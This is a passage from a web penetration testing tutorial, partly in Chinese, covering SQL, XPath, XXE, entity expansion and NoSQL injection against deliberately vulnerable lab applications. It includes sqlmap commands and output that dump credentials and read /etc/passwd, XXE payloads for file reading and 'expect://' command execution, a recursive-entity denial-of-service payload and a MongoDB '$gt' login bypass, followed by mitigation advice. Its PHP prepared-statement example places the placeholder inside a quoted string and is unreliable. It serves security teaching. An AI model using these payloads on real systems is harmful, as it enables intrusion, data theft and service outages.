[01:13:09] [INFO] used SQL query returns 3 entries
[01:13:09] [INFO] resumed: "","admin@thebodgeitstore.com","IRp^\Q[=BDNW;","ADMIN","2"
[01:13:09] [INFO] resumed: "","user1@thebodgeitstore.com","G3M\uE=5L7C_[","USER","1"
[01:13:09] [INFO] resumed: "1","test@thebodgeitstore.com","password","USER","3"
Database: PUBLIC
Table: USERS
[3 entries]
+--------+---------------+-------+--------------------------------+---------------+
| USERID | CURRENTBASKETID | TYPE  | NAME                           | PASSWORD      |
+--------+---------------+-------+--------------------------------+---------------+
| 2      | NULL          | ADMIN | admin@thebodgeitstore.com      | IRp^\Q[=BDNW; |
| 1      | NULL          | USER  | user1@thebodgeitstore.com      | G3M\uE=5L7C_[ |
| 3      | 1             | USER  | test@thebodgeitstore.com       | password      |
+--------+---------------+-------+--------------------------------+---------------+
[01:13:09] [INFO] table 'PUBLIC.USERS' dumped to CSV file '/root/.sqlmap/output/10.7.7.5/dump/PUBLIC/USERS.csv'
[01:13:09] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.7.7.5'
[*] shutting down at 01:13:09
```

攻击者的目标将是利用 SQL 注入漏洞在服务器上获得进一步立足点。使用 sqlmap，你可以通过利用注入漏洞在数据库服务器上读写文件，这会调用目标上的 load_file() 和 out_file() 函数来实现。在以下示例中，我们正在读取服务器上 /etc/passwd 文件的内容：

```
sqlmap -u "http://10.7.7.5/mutiliidae/index.php?page=user-info.php&username=admin&password=admin&user-info-php-submit-button=View+Account+Details" -p username --file-read /etc/passwd
```


[01:28:03] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 10.04 (Lucid Lynx)
web application technology: PHP 5.3.2, Apache 2.2.14
back-end DBMS: MySQL >= 5.0
[01:28:03] [INFO] fingerprinting the back-end DBMS operating system
[01:28:03] [INFO] the back-end DBMS operating system is Linux
[01:28:03] [INFO] fetching file: '/etc/passwd'
do you want confirmation that the remote file '/etc/passwd' has been successfully downloaded from the back-end DBMS file system? [Y/n]
[01:28:25] [WARNING] reflective value(s) found and filtering out
[01:28:25] [INFO] the local file '/root/.sqlmap/output/10.7.7.5/files/_etc_passwd' and the remote file '/etc/passwd' have the same size (1470 B)
files saved to [1]:
[*] /root/.sqlmap/output/10.7.7.5/files/_etc_passwd (same file)
[01:28:25] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.7.7.5'
[*] shutting down at 01:28:25
root@kali:~# WebPentest# cat /root/.sqlmap/output/10.7.7.5/files/_etc_passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh

sqlmap 工具提供的一些额外选项如下表所示：

| Option | Description |
|---|---|
| -f | This performs an extensive fingerprint of the database |
| -b | This retrieves the DBMS banner |
| --sql-shell | This accesses the SQL shell prompt after successful exploitation |
| --schema | This enumerates the database schema |
| --comments | This searches for comments in the database |
| --reg-read | This reads a Windows registry key value |
| --identify-waf | This identifies WAF/IPS protection |
| --level N | This sets the scan level (amount and complexity of injected variants) to N (1-5) |
| --risk N | This sets the risk of requests (1-3); Level 2 includes heavy time-based requests; Level 3 includes OR-based requests |
| --os-shell | This attempts to return a system shell |

sqlmap 可使用的所有选项的详尽列表可以在此 GitHub 项目页面找到， https://github.com/sqlmapproject/sqlmap/wiki/Usage。

## Attack potential of the SQL injection flaw

The following are techniques used to manipulate the SQL injection flaw:

- By altering the SQL query, the attacker can retrieve extra data from the database that a normal user is not authorized to access
- Run a DoS attack by deleting critical data from the database
- Bypass authentication and perform privilege escalation attacks
- Using batched queries, multiple SQL operations can be executed in a single request
- Advance SQL commands can be used to enumerate the schema of the database and then alter the structure too
- Use the load_file() function to read and write files on the database server and the into outfile() function to write files
- Databases such as Microsoft SQL allow OS commands to run through SQL statements using xp_cmdshell; an application vulnerable to SQL injection can allow the attacker to gain complete control over the database server and also attack other devices on the network through it

## XML injection

This section will cover two different perspectives on the use of XML in web applications:

- When the application performs searches in an XML file or XML database
- When the user submits XML formatted information to be parsed by the application

## XPath injection

XPath is a query language for selecting nodes from an XML document. The following is the basic XML structure:

```
<rootNode>
```

```
<childNode>
  <element/>
</childNode>
</rootNode>
```

An XPath search for **element** can be represented as follows:

```
/rootNode/childNode/element
```

More complex expressions can be made, for example, an XPath query for a login page may look like the following:

```
//Employee[UserName/text()='myuser' And Password/text()='mypassword']
```

As with SQL, if the input from the user is taken as is and concatenated to a query string, such input may be interpreted as code instead of data parameters.

For example, let's look at bWapp's **XML/XPath Injection (Search)** exercise. It shows a drop box, where you can choose a genre and search for movies that match this genre:



Here, *genre* is an input parameter for some search that the application does on the server side. To test it, you will need to create a search while having the browser first identify the request that sends the *genre* parameter to the server (/bWAPP/xmli_2.php?genre=action&action=search), and then send it to Repeater. You will do this using a proxy such as Burp Suite or ZAP. Once in Repeater, add a single quote to the genre. Then, click on **Go** and analyze the response:



By adding a single quote, we caused a syntax error in the application shown in the response. It clearly indicates that XPath is being used. Now you need to know how the query is constructed. For starters, let's see whether it looks for the whole text or part of it. Remove the last letters of the genre and click on **Go**:



You can see that if you use only a part of the genre, you still get the same results as when using the complete word. This means that the query is using the contains() function. You can look at the source code in https://github.com/redmondmj/bWAPP, as it is an open source application. Let's take the black box approach, however; so, it may be something like the following:

```
.../node[contains(genre, '$genre_input')]/node...
```

Though you may not know the full query, you can have a high level of confidence that [contains(genre, '$genre_input')] or something very similar is in place.

Now try a more elaborate injection that attempts to retrieve all of the records in the XML file that you inject:

```
'')]/*/*/ [contains('1','1
```



You can see that the response contains much more information than the original query, and the application will not show some of this information as part of a normal search.

## XPath injection with XCat

XCat is a tool written in Python 3, which can help you retrieve information using XPath injection vulnerabilities. It is not included by default in Kali Linux, but it can easily be added. You need to have Python 3 and pip installed in Kali Linux, and then just run the following in Terminal:

```
apt-get install python3-pip
pip3 install xcat
```

Once XCat is installed, you need to be authenticated in bWAPP to get the vulnerable URL and cookie, so you can issue a command with the following structure:

```
xcat -m <http_method> -c "<cookie value>" <URL_without_parameters> <injectable_parameter> <parameter1=value> <parameter2=value> -t "<text_in_true_results>"
```

In this case, the command would be as follows:

```
xcat -m GET -c
"PHPSESSID=kbh3orjn6b2gpimethf0ucq241;JSESSIONID=9D7765D7D1F2A9FCCC5D972A043F9867;security_level=0" http://10.7.7.5/bWAPP/xmli_2.php genre genre=horror action=search -t ">1<"
```

Notice that we use ">1<" as the true string. This is because the number in the results table only appear when at least one result is found. Running that command against bWAPP will result in something like the following:



## The XML External Entity injection

In XML, an **entity** is a storage unit that can be internal or external. An internal entity is one that has its value defined in its declaration, and an external entity takes the value from an external resource, such as a file. When an application receives some input from the user in XML format and processes external entities declared within it, it is vulnerable to the **XML External Entity (XXE)** injection.

We'll use bWAPP again to put this into practice using the XEE exercise in **/A7 - Missing Functional Level Access Control/**. There you will see only text with a button, and nothing seems to happen when you click on it. Let's check the proxy's recorded requests, however:




因此，这里你发送的 XML 结构包含你的用户名和一些密钥。你将请求发送到 Repeater 以进一步分析并进行测试。首先，尝试创建一个内部实体，看看服务器是否会处理它。为此，提交以下 XML：

```
<!DOCTYPE test [ <!ENTITY internal-entity "boss" >]>
<reset><login>&internal-entity;</login><secret>Any bugs?</secret></reset>
```



在这里我们创建了一个名为 internal-entity 的实体，其值为 "boss"，然后我们使用该实体替换 login 值，该值在响应中被反射。这意味着通过该实体加载的任何内容都将被服务器处理并反射。

尝试按如下方式加载文件：

```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
```



使用 SYSTEM，你正在定义一个外部实体。这会加载一个文件 (/etc/passwd)，并且服务器会在其响应中显示结果。

如果解析器未正确配置，并且加载了 expect PHP 模块，你也可以通过 XXE 获得远程执行：

```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "expect://uname -a" >]>
```

## 实体扩展攻击

即使解析器不允许外部实体，内部实体的允许仍然可以被恶意用户利用并导致服务器中断。因为所有 XML 解析器都会用其定义的值替换实体，所以可以创建一个递归实体集，使得服务器在无法响应之前处理大量信息。

这被称为 **实体扩展攻击**。以下结构是一个简单的概念验证：

```
<!DOCTYPE test [
<!ENTITY entity0 "Level0-">
<!ENTITY entity1 "Level1-&entity0;">
<!ENTITY entity2 "Level2-&entity1;&entity1;">
<!ENTITY entity3 "Level3-&entity2;&entity2;&entity2;">
<!ENTITY entity4 "Level4-&entity3;&entity3;&entity3;&entity3;">
<!ENTITY entity5 "Level5-
&entity4;&entity4;&entity4;&entity4;&entity4;">
]>
<reset><login>&entity0;</login><secret>Any bugs?</secret></reset>
```



在这里，你可以看到加载 `entity5` 时会发生什么。所有其他实体也将被加载。此信息在处理时存储在服务器的内存中，因此如果你发送足够大的有效负载或足够深的递归，你可能会导致服务器内存耗尽，无法响应用户的请求。

现在让我们看看加载 entity5 时响应大小的变化：



必须记住，在对真实应用程序进行渗透测试时，这类测试必须极其谨慎地进行，并且仅进行到能够证明漏洞存在而不影响服务的程度，除非客户另有说明。在这种情况下，应采取特殊环境和特殊的日志记录和监控措施。对于实体扩展攻击，展示六或七级的递归作为概念验证就足够了。响应时间也应予以考虑。

## NoSQL 注入

近年来，大数据，或在各种规模的公司中对各种版本和各种目的的海量信息的存储、处理和分析的推广和实施日益增加。这类信息通常是非结构化的或来源于不一定兼容的来源。因此，需要将其存储在某种特殊的数据库中，即所谓的不仅仅是 SQL（NoSQL）数据库，例如 MongoDB、CouchDB、Cassandra 和 HBase。

上述数据库管理器不使用 SQL（或不完全使用 SQL）这一事实并不意味着它们免受注入风险。请记住，SQL 注入漏洞是由发送查询的应用程序缺乏验证造成的，而不是由 DBMS 处理它造成的。对 NoSQL 数据库查询进行代码注入或更改参数是可能的，并且并不罕见。

## 测试 NoSQL 注入

NoSQL 查询通常以 JSON 格式完成。例如，MongoDB 中的查询可能如下所示：

```
User.find({ username: req.body.username, password: req.body.password }, ...
```

要在使用 MongoDB 数据库的应用程序中注入代码，你需要利用 JSON 语法使用 ' " ; { } 等字符并形成有效的 JSON 结构。

## 利用 NoSQL 注入

为了测试实际利用是如何工作的，你可以使用 Snyk 制作的易受攻击的应用程序（https://github.com/snyk/goof）。要运行此应用程序，你需要在目标服务器上安装并正确运行 Node.js 和 MongoDB。

你应该尝试绕过管理员部分密码检查的注入攻击。设置代理后，浏览到易受攻击应用程序的管理员部分。在此示例中，它将是 http://10.0.2.2:3001/admin。如果你提交用户 admin 和任何密码，你会看到没有访问权限。



如果你将该请求发送到 Repeater，你可以看到它发送了两个参数：username 和 password。你应该将请求格式更改为 JSON。为此，你更改 Content-Type 头的值和参数的格式：



如果你提交该请求，服务器似乎接受了它，因为没有生成错误。为了清晰起见，让我们以 JSON 格式使用实际的管理员密码，以确保它确实被接受：



现在你知道它有效了，尝试注入一个条件而不是密码值，以便验证始终为真。查询将说，“如果用户名是 admin 且密码大于一个空字符串”：

```
{"username":"admin","password":{"$gt":""}}
```

$gt 是 MongoDB 的一个特殊查询运算符，表示大于 (>) 二进制操作。更多运算符和注入字符串可以在 https://github.com/cr0hn/nosqlinjection_wordlists 找到。


NoSQLMap（https://github.com/codingo/NoSQLMap.git）是一个开源工具，未包含在 Kali Linux 中，但易于安装。它可用于自动化 NoSQL 注入检测和利用。

## 注入漏洞的缓解和预防

防止注入漏洞的关键方面是验证。用户提供输入绝不能被信任，并且应始终进行验证，并在包含无效或危险字符时被拒绝或清理，例如以下内容：

- 引号 (' 和 ")
- 括号和方括号
- 保留特殊字符 ('!', '%', '&', 和 ';')
- 注释组合 ('--', '/*', '*/', '#', 和 '(:', ' :)')
- 其他特定于语言和实现的字符

验证的推荐方法是白名单。这意味着为每个输入字段或字段组列出允许的字符，并将提交的字符串与该列表进行比较。提交字符串中的所有字符都必须在允许列表中才能通过验证。

对于 SQL 注入预防，应使用参数化或预准备语句，而不是将输入连接到查询字符串。预准备语句的实现因语言而异，但它们都遵循相同的原则；客户端提供的输入不会连接到查询字符串，而是作为参数发送给一个函数，该函数正确构建查询。以下是 PHP 的示例：

```
$stmt = $dbh->prepare("SELECT * FROM REGISTRY where name LIKE '%?%'");
$stmt->execute(array($_GET['name']));
```

有关此主题的一些有用参考如下：

- https://www.owasp.org/index.php/Data_Validation
- https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet
- https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Prevention_Cheat_Sheet


## 6